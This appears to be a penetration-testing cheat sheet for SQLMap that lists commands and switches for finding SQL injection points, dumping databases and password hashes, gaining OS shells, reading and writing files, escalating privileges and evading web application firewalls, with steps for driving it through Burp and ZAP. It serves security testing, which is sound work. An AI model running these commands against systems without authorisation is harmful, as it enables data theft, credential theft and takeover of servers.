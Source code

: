 ```yaml
---
title: SQLMap 
category: Web Application
order: 98
---
```


> **SQLMap Command**

{% highlight bash %}
#Crawl the site looking for vulnerable fields
sqlmap.py -u http://192.168.1.2 --crawl=1

#Use a request from burp or zap (raw request or burp log)
sqlmap.py -u http://site/file.php?variable?name=vName --cookie="cookie" --proxy http://127.0.0.1:8081   --batch
sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 

#Count Rows
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --count -D sqli -T Customers

#Shell
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --os-shell

#Dump Tables
sqlmap.py -I rawrequest2.raw --tables
sqlmap.py -l rawrequest2.raw --dump -D wordpress -T wp_users

#Advanced Usage
sqlmap -l /tmp/burp.log --scope="site.org" --dbms=mssql --os=windows --prefix="')" --suffix=" AND ('a'='a" --string="found --technique=BT --regex="User.+found" --level=5 --risk=3 --skip-waf --proxy=PROXY 
{% endhighlight %}

> **Riding Sessions**
*Note: This can have a performance impact*

**ZAP**
1. Click enable session tracking cookies

**Burp**
1. Click Options tab
2. Click Sessions sub-tab
3. Click Use cookies from Burps' cookie jar - Proxy, Spider, and Scanner

> **SQL Map Switches**

**Common switches:**

Discover SQL injection | <code> -u </code> 
Spider the site looking for injection points | <code> --crawl </code> 
Target forms for injection | <code> --forms </code>
Tell sqlmap the database | <code> --dbms </code> 
Capture HTTP Request or proxy log as starting point | <code> -r/-l </code> 
Manually set cookies | <code> --cookie (e.g., --cookie 'SESSID=42') </code>
Have sqlmap go through Burp/ZAP or another proxy | <code> --proxy (e.g., --proxy http://127.0.0.1:8081) </code>
Change User Agent (Default is sqlmap/#.#) | <code> --user-agent </code> 
Proved Referer <br> *WAFs may validate this (better way is use existing request -r or via a proxy)* | <code> --referer </code> 

**DB Enumeration:**

Dump the entire DMBS database | <code> --schema </code> 
To ignore system databases | <code> --exclude-sysdbs </code> 
Select database, table or Columns <br> *Be more tactical* | <code> --dbs/--tables/--columns  </code>  <br> -D/-T can be coupled with the above switch for example, list only tables in the Customer DB (-D Customer --tables)
Dump all data && metadata (scary!) | <code> --all </code> 
Count (No data exfiltrated) | <code> --count </code> 
Steals data given constraints | <code> --dump (e.g., -D Orders -T Customers --dump) </code> 
Exfiltrates all table data | <code> --dump-all </code> 
Scour DB/table/column for a string (e.g., pass) | <code> --search </code> 

**Beyond DB exfil:**

Enumerate DB user accounts | <code> --users </code> 
Show DB user account hashes | <code> --passwords </code>
Download files to attack the system | <code> --file-read </code> 
Upload files to the DB system | <code> --file-write </code>
Read/Write Windows registry keys | <code> --reg-read/--reg-write </code> 
Add/Delete Windows registry keys | <code> --reg-add/--reg-del </code> 

**Post Exploitation:**

Escalate Priv | <code> --priv-esc </code>
SQL Query | <code> --sql-query/--sql-shell </code>
OS Commands | <code> --os-cmd/--os-shell </code>
OS Pwn | <code> --os-pwn </code>

> **SQLMap with Burp/ZAP**

**Start SQLMap based on ZAP:**
1. Navigate to field with SQL injection (one that has no errors or SQL injection) -> right click on request -> save RAW
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 


**Start SQLMap based on Burp:**
1. Navigate to request with SQL injection (one that has no errors or SQL injection) -> right click on request -> copy to file
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081

**Run SQLMap in Zap**
1. tools -> optins -> applications -> add  -> 
* sqlmap
* navigate to sqlmap 
* as is
* -u %url% --cookie=%cookie% --batch
* capture output and note
* enabled
2. Right click on request in history -> run application -> SQLMap
3. Right click on request in history -> view note
4. Set up for each function you do frequently (e.g., tables, count, read file) 

>**Tamper Scripts**

* [SANS](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)


> **Tools**
* [SQLMap](https://github.com/sqlmapproject/sqlmap)

